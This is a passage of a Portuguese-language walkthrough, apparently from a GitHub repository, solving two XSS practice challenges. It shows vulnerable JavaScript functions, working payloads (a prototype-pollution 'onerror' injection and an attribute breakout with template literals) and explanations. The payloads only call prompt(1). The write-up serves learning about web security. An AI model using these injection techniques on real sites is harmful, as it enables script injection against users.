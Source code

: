 ````
        }
        // purify the source by stripping off "
        var source = config.source.replace(/"/g, '');
        // insert the content using mustache-ish template
        return '<img src="{{source}}">'.replace('{{source}}', source);
    } catch (e) {
        return 'Invalid image data.';
    }
} 
````
Resolução funcional:
````
{"source":{},"__proto__":{"source":"$`onerror=prompt(1)>"}}
````

<img width="1154" height="480" alt="Captura de Tela 2025-08-31 às 17 40 49" src="https://github.com/user-attachments/assets/62ad0847-fa92-4d53-a762-159fb3e99f1b" />

Explicação:
O código gera uma tag `<img>` a partir de dados em JSON.  
A falha está na manipulação do protótipo, que permite injetar um atributo `onerror`.  
Quando a imagem falha ao carregar, esse evento é acionado e o código é executado.


#### Desafio F

Código:
````
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}        
````
Resolução funcional:
````
"> <script>`#${prompt(1)}#`</script>
````

<img width="1149" height="524" alt="Captura de Tela 2025-08-31 às 17 40 32" src="https://github.com/user-attachments/assets/a0d762c5-fc7f-4b5f-b4a2-fce8f12a7dda" />

Explicação:
O código divide a entrada pelo caractere `#` e limita cada segmento a 15 caracteres.  
Ao fechar o atributo `title` e injetar um `<script>`, a execução não ocorre da forma esperada.  
Porém, utilizando a mesma técnica do desafio 7 com template literals, o conteúdo dentro de `${}` é interpretado como código JavaScript.  
Assim, a função é executada, permitindo a exploração.
